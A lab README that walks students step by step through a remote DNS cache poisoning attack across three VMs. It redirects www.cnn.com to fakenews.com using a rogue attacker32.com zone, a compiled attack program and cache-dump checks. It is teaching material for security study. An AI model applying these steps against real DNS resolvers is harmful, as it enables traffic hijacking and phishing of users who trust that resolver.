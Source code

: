 ## Remote DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: victim (DNS) client, victim (DNS) server, attacker. All 3 VMs are located in the same network - however, we are not allowed to exploit this fact for the attacks, in other words, the attacker in this lab is not allowed to use wireshark to sniff any packets, or use the *netwox* command to inject forged DNS responses. After all, this lab is trying to demonstrate how attackers from a remote network can still perform DNS cache poisoning.

The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |              Role                     |
|-----|---------------|---------------------------------------|
| VM1 | 172.16.77.128 |   victim DNS client                   |
| VM2 | 172.16.77.129 |   victim DNS server                   |
| VM3 | 172.16.77.130 |   attacker, attacker's DNS server     |

### Special Notes

1. in this lab, you need to copy several files from this github repository into either your victim DNS server VM, or into your attacker VM, thus it is more convenient if you just clone this repository on your victim DNS server VM, and also clone this same repository on your attacker VM.

2. many of the commands in this lab require *sudo*.

### Steps

1. on victim DNS client, configure DNS server information, i.e., let the client know the IP address of the victim DNS server.

1.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:
![alt text](lab-remote-dns-edit-file.png "edit the file")

this screenshot shows the file is now edited:
![alt text](lab-remote-dns-configure-dns.png "configure dns")

1.2. run the following command so the above change will take effect:

```console
[05/29/22]seed@VM:~$ sudo resolvconf -u
```

![alt text](lab-remote-dns-resolvconf.png "resolvconf command")

2. setting up the local DNS server.

2.1. add the following into /etc/bind/named.conf (so that it forwards all requests for the attacker32.com domain to the malicious DNS server).

```console
zone "attacker32.com" {
    type forward;
    forwarders {
        172.16.77.130; // replace 172.16.77.130 with your attacker VM's IP address, do not remove the ";".
    };
};
```

**Explanation**: the added lines are saying, for DNS queries regarding this attacker32.com domain, please forward the queries to 172.16.77.130. we do this so that we don't need to actually purchase the domain attacker32.com.

2.2. copy named.conf.options into the /etc/bind/ directory, and also copy named.conf.default-zones into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones /etc/bind/
```

**Explanation**: these two files will overwrite the default files, and with these two files, now the victim DNS server is configured to forward all DNS requests to 1.2.3.4, which does not provide DNS services, and then later on the attacker will impersonate 1.2.3.4 to send forged responses to the victim DNS server.

2.3. restart DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

**Warning**: in your report, don't claim that the attack presented in this lab is not realistic because we need to make these changes on the victim DNS server. Such changes are unnecessary in a real life attacking scenario. The lab is designed in such a way, just to save you - the student, some money - so you don't need to purchase a domain, and to save you - the student, some time, we hardcoded 1.2.3.4 in the configuration file of the victim DNS server and also in the attacking program, otherwise you will need to manually to find out the IP address of authoritative name server for cnn.com.

3. setting up the attacker DNS server.

3.1. copy attacker32.com.zone and cnn.com.zone into the /etc/bind/ directory.

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp attacker32.com.zone /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp cnn.com.zone /etc/bind/
```

3.2. add the following into /etc/bind/named.conf (so that the above two configuration files will be used):

```console
zone "attacker32.com" {
    type master;
    file "/etc/bind/attacker32.com.zone";
};

zone "cnn.com" {
    type master;
    file "/etc/bind/cnn.com.zone";
};
```

3.3. restart attacker's DNS server so the above changes will take effect:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo service bind9 restart
```

4. on victim DNS client, send two queries.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

the first *dig* command should show you the legitimate mapping: 

![alt text](lab-remote-dns-before-attack.png "dig cnn, before attack")

whereas the second *dig* command should show you that www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com:

![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker, before attack")

the goal of this attack is, when the victim DNS client runs either of the above two commands, the victim DNS client will get the same result, i.e., www.cnn.com is mapped to the IP address of fakenews.com.

5. right before we start the attack, let's clear the victim DNS server's cache. on the victim DNS server, run:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo rndc flush
```

6. launch the attack: on the attacker's VM,

```console
[05/29/22]seed@VM:~/.../remotedns$ gcc -o attack attack.c
[05/29/22]seed@VM:~/.../remotedns$ sudo ./attack 172.16.77.130 172.16.77.129
```

**Note**: replace 172.16.77.130 with your attacker VM's IP address, replace 172.16.77.129 with your victim DNS server VM's IP address.

7. the attack may take a couple of minutes. on victim DNS server VM, we can check the cache to verify if the cache is poisoned or not.

```console
[05/29/22]seed@VM:~$ sudo rndc dumpdb -cache
[05/29/22]seed@VM:~$ cat /var/cache/bind/dump.db | grep attacker
ns.attacker32.com.	9992	\-AAAA	;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
cnn.com.		65529	NS	ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1792] [v6 TTL 9992] [v4 success] [v6 nxrrset]
```

as long as we see this NS record which associates cnn.com. to ns.attacker32.com., then we know the cache is now poisoned.

8. we can then verify the result from the victim DNS client. on the victim DNS client VM, we just need to send two queries.

```console
[05/29/22]seed@VM:~$ dig www.cnn.com 
```

```console
[05/29/22]seed@VM:~$ dig @ns.attacker32.com www.cnn.com
```

if the attack is successful, then these two commands should now show the same result, which is www.cnn.com is mapped to 188.126.71.216, which as of 05/29/2022, is the IP address of fakenews.com.

the following screenshots show that the attack is successful:
![alt text](lab-remote-dns-dig-default-p1.png "dig cnn")
![alt text](lab-remote-dns-dig-default-p2.png "dig cnn")
![alt text](lab-remote-dns-dig-attacker-p1.png "dig cnn from attacker")
![alt text](lab-remote-dns-dig-attacker-p2.png "dig cnn from attacker")

9. you are recommended to remove the line you added on the victim DNS client VM in step 1, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.

10. you are also recommended to restore the two files on the victim DNS server VM:

```console
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.options.orig /etc/bind/
[05/29/22]seed@VM:~/.../remotedns$ sudo cp named.conf.default-zones.orig /etc/bind/
```
